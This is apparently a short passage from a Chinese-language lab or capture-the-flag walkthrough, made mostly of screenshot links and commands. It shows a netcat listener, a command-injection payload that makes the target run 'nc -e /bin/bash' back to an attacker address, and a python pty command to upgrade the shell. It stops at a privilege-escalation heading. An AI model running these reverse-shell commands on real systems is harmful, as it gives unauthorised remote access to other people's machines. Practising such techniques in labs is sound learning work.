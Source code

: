 ![image-20250315050300624](assets/image-20250315050300624.png)

```
nc -lvp
```

![image-20250315050414879](assets/image-20250315050414879.png)

```
cmd=nc -e /bin/bash 192.168.1.3 283
```

![image-20250315050347634](assets/image-20250315050347634.png)

![image-20250315050426418](assets/image-20250315050426418.png)

成功弹回shell





#### python转换终端

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![image-20250315051103647](assets/image-20250315051103647.png)





## 提权
